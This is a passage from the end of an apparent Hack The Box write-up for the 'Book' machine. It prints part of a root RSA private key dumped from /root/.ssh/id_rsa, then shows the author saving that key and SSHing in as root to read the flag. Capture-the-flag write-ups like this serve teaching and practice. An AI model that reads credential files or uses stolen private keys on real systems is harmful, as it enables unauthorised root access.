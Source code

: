 y0+3awaLj7ILGgvukDfpK4sMvYmx4QYK2L1R6pkGX2dxa4fs/uFx45Qk79AGc55R
IV1OjFqDoq/s4jj1sChKF2+8+JUcrJMsk0WIMHNtDprI5ibYy7XfHe7oHnOUxCTS
CPrfj2jYM/VCkLTQzdOeITDDIUGG4QGUML8IbM8vAoGBAM6apuSTzetiCF1vVlDC
VfPEorMjOATgzhyqFJnqc5n5iFWUNXC2t8L/T47142mznsmleKyr8NfQnHbmEPcp
ALJH3mTO3QE0zZhpAfIGiFk5SLG/24d6aPOLjnXai5Wgozemeb5XLAGOtlR+z8x7
ZWLoCIwYDjXf/wt5fh3RQo8TAoGAJ9Da2gWDlFx8MdC5bLvuoOX41ynDNlKmQchM
g9iEIad9qMZ1hQ6WxJ8JdwaK8DMXHrz9W7yBXD7SMwNDIf6u1o04b9CHgyWXneMr
nJAM6hMm3c4KrpAwbu60w/AEeOt2o8VsOiusBB80zNpQS0VGRTYFZeCF6rKMTP/N
WU6WIckCgYBE3k00nlMiBNPBn9ZC6legIgRTb/M+WuG7DVxiRltwMoDMVIoi1oXT
ExVWHvmPJh6qYvA8WfvdPYhunyIstqHEPGn14fSl6xx3+eR3djjO6J7VFgypcQwB
yiu6RurPM+vUkQKb1omS+VqPH+Q7FiO+qeywqxSBotnLvVAiaOywUQ==
-----END RSA PRIVATE KEY-----
/root/.ssh/id_rsa
reader@book:/tmp/.yakuhito$

{% endhighlight %}

I then used ssh to connect as root:

{% highlight bash %}

root@fury-battlestation:~/htb/blog/book# echo """priv_key""" > ~/.ssh/book_root
root@fury-battlestation:~/htb/blog/book# chmod 600 ~/.ssh/book_root
root@fury-battlestation:~/htb/blog/book# ssh root@book.htb -i ~/.ssh/book_root 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 18 12:19:42 UTC 2020

  System load:  0.01               Processes:            139
  Usage of /:   26.5% of 19.56GB   Users logged in:      0
  Memory usage: 22%                IP address for ens33: 10.10.10.176
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

114 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Mar 18 12:19:02 2020 from ::1
root@book:~# wc root.txt 
 1  1 33 root.txt
root@book:~# cat root.txt 

{% endhighlight %}

The root proof starts with ‘84’ 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/y
akuh1t0) 🙂

Until next time, hack the world.

yakuhito, over.
